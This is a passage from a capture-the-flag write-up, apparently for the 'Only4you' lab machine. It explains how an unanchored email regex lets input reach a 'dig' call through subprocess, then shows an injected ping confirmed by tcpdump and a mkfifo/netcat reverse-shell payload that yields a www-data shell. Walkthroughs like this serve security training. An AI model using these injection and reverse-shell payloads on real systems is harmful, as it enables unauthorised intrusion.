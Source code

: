{{< /highlight >}}

The `sendmessage()` function calls the `issecure()` function and provides it with the `email` parameter. Inside `issecure()`, the `email` is compared against a regular expression. If the condition is satisfied, the portion of the email after the `@` symbol is extracted. This extracted part is then utilized to execute the `dig` command using the subprocess library. Interestingly, the absence of an end anchor, `$`, in the regex pattern implies that if the pattern is located within a longer string, it will still be regarded as a match. For instance, with the payload `test@example.com;id`, the regex condition is fulfilled by `test@example.com`. Additionally the semicolon `;` in the payload trigger the execution of the `id` command when the `dig` command is run via subprocess.

```python
>>> import re
>>> email = 'test@example.com;id'
>>> if re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email): print("Re Bypass!!")
...
Re Bypass!!
>>> domain = email.split("@", 1)[1]
>>> domain
'example.com;id'
>>> print(f"dig txt {domain}")
dig txt example.com;id
```

Confirmed successful command injection using the ping command.

```bash
> http --form -pb POST only4you.htb \
> email='test@example.com;ping -c 3 10.10.14.16' subject='subject' message='message'
```

```bash
> _ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:10:46.349602 IP only4you.htb > 10.10.14.16: ICMP echo request, id 1, seq 1, length 64
22:10:46.349706 IP 10.10.14.16 > only4you.htb: ICMP echo reply, id 1, seq 1, length 64
22:10:47.348878 IP only4you.htb > 10.10.14.16: ICMP echo request, id 1, seq 2, length 64
22:10:47.348893 IP 10.10.14.16 > only4you.htb: ICMP echo reply, id 1, seq 2, length 64
22:10:48.348418 IP only4you.htb > 10.10.14.16: ICMP echo request, id 1, seq 3, length 64
22:10:48.348434 IP 10.10.14.16 > only4you.htb: ICMP echo reply, id 1, seq 3, length 64

```

Leveraged the same vulnerability and used a reverse shell payload to get a shell as `www-data`

```bash
> http --form -pb POST only4you.htb \
email='test@example.com;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 9005 >/tmp/f' subject='subject' message='message'
```

```bash
> pc -lp 9005
[22:13:15] Welcome to pwncat 🐈!                                                                    __main__.py:164
[22:14:06] received connection from 10.129.77.238:33374                                                  bind.py:84
[22:14:08] 10.129.77.238:33374: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) www-data@only4you:/var/www/only4you.htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@only4you:/var/www/only4you.htb$
```

---